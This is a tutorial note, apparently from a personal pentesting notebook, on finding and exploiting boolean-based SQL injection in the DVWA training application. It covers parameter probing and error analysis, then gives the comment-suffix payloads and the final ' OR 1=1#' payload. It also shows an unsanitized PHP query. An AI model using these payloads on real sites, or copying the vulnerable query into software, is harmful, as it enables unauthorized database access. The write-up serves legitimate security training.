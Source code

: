 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - server-side-attack
  - sql-injection
  - boolean-based
  - dvwa
---
```

# 02 - Craft Exploit

## 2.1 - Vulnerability Detection

### 2.1.1 - Exploring The Parameter

#### 2.1.1.1 - Exceed The Upper and Lower Boundary Limits

We will try to determine the range of the data resides in the database to find the limits by exceeding the boundary range.

```
id=0
id=1
id=2
id=3
id=4
id=5
id=6
```

The start of the valid responses.

![[01 - Valid Response Input.png]]

Until reaching the end of the data of what is available in the database.

![[02 - Invalid Response Input.png]]

#### 2.1.1.2 - Testing Injection With Arithmetic Expression

This will provide an indicator if the numeric values perform mathematical operation. A probable factor of SQL injection however nothing works.

```
id=6-1
id=6-2
id=5+1
id=2*2
id=6/3
```

#### 2.1.1.3 - Invalidate Values

This will provide a clear space to perform data collection when exploiting the parameter.

Exceeding the boundary limits. ^33ca41

```
id=99
id=-1
```

Changing the numeric datatype to decimal.

```
id=1.0
id=1.5
```

Using strings. ^840ca1

```
id=a
id=abcdef
```

Using SQL logical operators `OR`, `AND`, `XOR`, `NOT` ^860e62

```
id=1 AND 1=1
id=1 AND 1=2
```

### 2.1.2 - Testing Injection With Strings

#### 2.1.2.1 - Break the Query

We will trigger a SQL error using `'` as a prefix to take advantage of unsantized user input.

![[03 - Break Query.png]]

#### 2.1.2.2 - Copying the Error Statement

First we breakdown the process step by step to figure it out how join the query to craft our final payload.

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```

Understand from the developer's perspective.

```
				   ''1'''    at line 1 (SO THIS IS THE ERROR)
```

Separate the single quotes.

```
(DELETE LEFTHANDSIDE SINGLE QUOTE) ' '1' ' '

                                     '1' ' ' (DELETE RIGHTHAND SIDE SINGLE QUOTE)

                                     '1''
```

Once you deleted the rest of the quotes.

```
                                     '1''    (AFTER ELIMATING THE REST WE HAVE THE REMAINING)
```

Highlight the single quote from the right hand side of the quotes.

```
                                     '1(')'  (MARKING THE SINGLE QUOTE WITH PARENTHESES, WHICH IS BREAKING THE SQL BACKEND)
```

Let's imagine the vulnerable PHP code snippet from the webserver backend processes it. This isn't necessary but it's just for understanding the process.

```php
$sql = "SELECT first_name, last_name FROM users WHERE id = '$id'";
```

We include a single quote as a prefix which causes the error. So we need to escape it by commenting it out with a suffix.

```sql
SELECT first_name, last_name FROM users WHERE id = '1'';
```

#### 2.1.2.3 - Joining the Query (Comment Out Query)

^a3394c

Now we need a suffix to terminate to get results. In MySQL we will terminate it with comments (`--`)  as a suffix. It will treat the rest of the snippets by interpreting it as SQL. We can leverage this craft the payload to exploit further.

```sql
'--
```

![[04 - Join Query with Hyphens.png]]

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

Looks like it didn't work. Let's instead try adding the `#` as a suffix.

```sql
'#
```

![[05 - Query Joined via Hashtag.png]]

![[06 - Valid Response via Query.png]]

It responds normally. We can use this to exploit it. Before that let's try adding another variant to comment it out with `-- -`.

```sql
'-- -
```

![[07 - Query Joined via Comments.png]]

![[08 - Comments with Valid Response.png]]

Excellent now we can move on.

### 2.1.3 - Craft Payload

This is the syntax with a place holder of SQL payload.

```
'<SQL_Payload>#
```

### 2.1.4 - Retrieving Hidden Data

^9167dd

#### 2.1.4.1 - Exploit

Let's retrieve the hidden data.

```sql
' OR 1=1#
```

![[09 - Boolean-Based Query Payload.png]]

![[10 - Data Queried.png]]

You can switch to different SQL logical operators `OR`, `AND`, `XOR`, `NOT`. Experiment this on your own depending on web application you're up against.

These techniques are possible due to the references I found online. I strongly recommend you to read them one by one because some SQL statement error responses may differ.

---
## References

- [[02 - Boundaries|Helpers: In-Band SQL Queries]]

- [Best approach to Error-Based SQL injection](https://medium.com/@anekantsinghai/best-approach-to-error-based-sql-injection-30c73fd8fa41)